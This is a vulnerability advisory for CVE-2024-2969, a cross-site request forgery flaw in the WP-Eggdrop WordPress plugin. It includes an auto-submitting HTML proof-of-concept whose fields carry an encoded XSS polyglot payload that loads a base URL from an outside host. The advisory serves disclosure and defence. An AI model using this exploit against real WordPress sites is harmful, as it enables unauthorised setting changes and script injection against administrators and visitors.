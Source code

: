 ```yaml
---
layout: page
title: CVE-2024-2969
subtitle: WP-Eggdrop <= 0.1 - Cross-Site Request Forgery to Settings Update
---
```

## Description
The WP-Eggdrop plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 0.1. This is due to missing or incorrect nonce validation on the wpegg_updateOptions() function. This makes it possible for unauthenticated attackers to update the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 5.4 (Medium) - CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N

## Affected Version
    <= 0.1

## PoC :
```
<html>
  <!-- eneriiiiiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/options-general.php?page=wpegg" method="POST">
      <input type="hidden" name="wpegg&#95;server" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&apos;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1331&#43;6&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#47;&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="wpegg&#95;port" value="666" />
      <input type="hidden" name="wpegg&#95;password" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&apos;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1331&#43;6&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#47;&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="wpegg&#95;message" value="JavaScript&#58;&#47;&#47;&#37;0A&#47;&#42;&#63;&apos;&#47;&#42;&#92;&#92;&apos;&#47;&#42;&quot;&#47;&#42;&#92;&#92;&quot;&#47;&#42;&#96;&#47;&#42;&#92;&#92;&#96;&#47;&#42;&apos;&#41;&#47;&#42;&lt;&#33;&#45;&#45;&gt;&lt;&#47;Title&#47;&lt;&#47;Style&#47;&lt;&#47;Script&#47;&lt;&#47;textArea&#47;&lt;&#47;iFrame&#47;&lt;&#47;noScript&gt;&#92;&#92;74k&lt;K&#47;contentEditable&#47;autoFocus&#47;OnFocus&#61;&#47;&#42;&#36;&#123;&#47;&#42;&#47;&#59;&#123;&#47;&#42;&#42;&#47;&#40;confirm&#41;&#40;1331&#43;6&#41;&#125;&#47;&#47;&gt;&lt;Base&#47;Href&#61;&#47;&#47;ener1&#45;s3c&#46;github&#46;io&#47;&#92;&#92;76&#45;&#45;&gt;" />
      <input type="hidden" name="wpegg&#95;submit" value="Update&#32;Options&#32;Â&#187;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://plugins.trac.wordpress.org/browser/wp-eggdrop/trunk/wp-eggdrop.php#L215
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-eggdrop/wp-eggdrop-01-cross-site-request-forgery-to-settings-update
- https://www.cve.org/CVERecord?id=CVE-2024-2969

